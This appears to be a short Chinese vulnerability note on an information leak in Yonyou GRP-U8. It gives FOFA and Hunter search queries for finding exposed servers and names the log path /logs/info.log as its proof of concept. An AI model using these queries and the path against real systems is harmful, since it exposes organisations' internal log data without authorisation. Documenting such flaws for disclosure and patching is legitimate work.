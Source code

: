 # 用友 GRP-U8 info.log 存在信息泄露

## 网络测绘

fofa: app="yonyou-GRP-U8"

hunter: app.name="用友GRP-U8 OA"

## POC / EXP

```
/logs/info.log
```